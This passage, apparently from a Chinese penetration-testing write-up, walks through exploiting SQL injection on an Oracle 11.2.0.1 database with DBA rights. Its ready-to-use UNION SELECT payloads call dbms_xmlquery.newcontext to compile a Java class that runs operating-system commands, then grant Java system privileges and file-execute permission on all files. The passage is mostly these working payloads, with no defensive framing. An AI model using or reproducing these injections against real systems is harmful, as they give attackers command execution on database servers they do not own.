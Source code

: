 oracle版本为11.2.0.1，是可以执行命令的。继续查看权限，执行：

  * 

    
    
    select role from session_roles

权限为DBA权限：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112534.png)

开始创建JAVA Source，执行：

  * 

    
    
    UNION ALL SELECT dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;'),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM DUAL--

查看是否创建成功的命令：

  * 

    
    
    select OWNER,OBJECT_NAME,OBJECT_TYPE from all_objects where object_name like '%LINX%' or object_name like '%Linx%'

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112535.png)

接下来是Java赋执行权限，但是此之前我们需要先给用户添加java运行权限，因此先执行：

  * 

    
    
    NION ALL SELECT  dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate '' grant JAVASYSPRIV to SYSTEM ''commit;end;'),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM DUAL--

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112536.png)

再执行：

  * 

    
    
    UNION ALL SELECT  dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;'),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL FROM DUAL--

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112538.png)
